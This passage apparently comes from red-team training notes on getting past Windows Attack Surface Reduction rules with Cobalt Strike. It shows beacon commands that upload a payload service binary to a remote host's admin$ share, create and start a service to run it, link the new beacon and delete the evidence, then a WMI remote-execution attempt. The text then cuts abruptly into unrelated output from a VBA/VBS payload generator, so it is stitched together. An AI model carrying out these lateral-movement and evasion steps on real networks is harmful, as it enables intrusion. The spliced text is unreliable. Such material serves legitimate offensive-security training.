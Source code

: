 On WKSTN-2, the following alert is raised:

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/psexec-blocked.png)

It appears this rule is specific to the Sysinternals PsExec implementation - it does not prevent you from creating and starting arbitrary services, which makes this trivial to bypass.  Simply drop your own service binary to disk and create a service to run it.
```
beacon> cd \\wkstn-2\admin$
beacon> upload /root/beacon-svc.exe
beacon> run sc \\wkstn-2 create RandoService binPath= C:\Windows\beacon-svc.exe

[SC] CreateService SUCCESS

beacon> run sc \\wkstn-2 start RandoService

SERVICE_NAME: RandoService 
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2056
        FLAGS              : 

beacon> link wkstn-2
[+] established link to child beacon: 10.10.120.75

beacon> rm beacon-svc.exe
beacon> run sc \\wkstn-2 delete RandoService

[SC] DeleteService SUCCESS
```

This also means the automated jump command works.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/asr/jump-psexec64.png)

## WMI

As with PsExec, attempting to execute a binary via `wmic /node` or Cobalt Strike's `remote-exec wmi` command is blocked.
```
beacon> run wmic /node:"wkstn-2" process call create "C:\Windows\System32\win32calc.exe"

Executing (Win32_Process)->Create()

Method execution successful.

Out Parameters:
instance of __PARAMETERS
{
	ReturnValue = 2;
};
```


[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at:TestAssembly\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\vba.vba
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs
